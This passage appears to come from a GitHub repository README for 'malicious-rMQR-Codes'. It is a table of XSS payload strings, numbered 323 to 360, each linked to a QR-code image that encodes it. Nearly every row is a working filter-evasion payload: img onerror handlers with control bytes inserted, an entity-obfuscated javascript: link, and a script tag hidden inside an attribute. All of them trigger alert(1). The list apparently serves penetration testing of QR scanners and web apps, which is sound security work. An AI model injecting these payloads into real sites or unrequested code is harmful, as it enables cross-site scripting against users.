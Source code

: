 | `<% foo><x foo="%><script>javascript:alert(1)</script>">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/323.png) |
| `<img \x47src=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/325.png) |
| `<img \x11src=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/326.png) |
| `<img \x12src=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/327.png) |
| `<img\x47src=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/328.png) |
| `<img\x10src=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/329.png) |
| `<img\x13src=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/330.png) |
| `<img\x32src=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/331.png) |
| `<img\x47src=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/332.png) |
| `<img\x11src=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/333.png) |
| `<img \x47src=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/334.png) |
| `<img \x34src=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/335.png) |
| `<img \x39src=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/336.png) |
| `<img \x00src=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/337.png) |
| `<img src\x09=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/338.png) |
| `<img src\x10=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/339.png) |
| `<img src\x13=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/340.png) |
| `<img src\x32=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/341.png) |
| `<img src\x12=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/342.png) |
| `<img src\x11=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/343.png) |
| `<img src\x00=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/344.png) |
| `<img src\x47=x onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/345.png) |
| `<img src=x\x09onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/346.png) |
| `<img src=x\x10onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/347.png) |
| `<img src=x\x11onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/348.png) |
| `<img src=x\x12onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/349.png) |
| `<img src=x\x13onerror="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/350.png) |
| `<img[a][b][c]src[d]=x[e]onerror=[f]"alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/351.png) |
| `<img src=x onerror=\x09"javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/352.png) |
| `<img src=x onerror=\x10"javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/353.png) |
| `<img src=x onerror=\x11"javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/354.png) |
| `<img src=x onerror=\x12"javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/355.png) |
| `<img src=x onerror=\x32"javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/356.png) |
| `<img src=x onerror=\x00"javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/357.png) |
| `<a href=java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(1)>XXX</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/358.png) |
| ``<img src="x` `<script>javascript:alert(1)</script>"` `>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/359.png) |
| `<img src onerror /" '"= alt=javascript:alert(1)//">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/360.png) |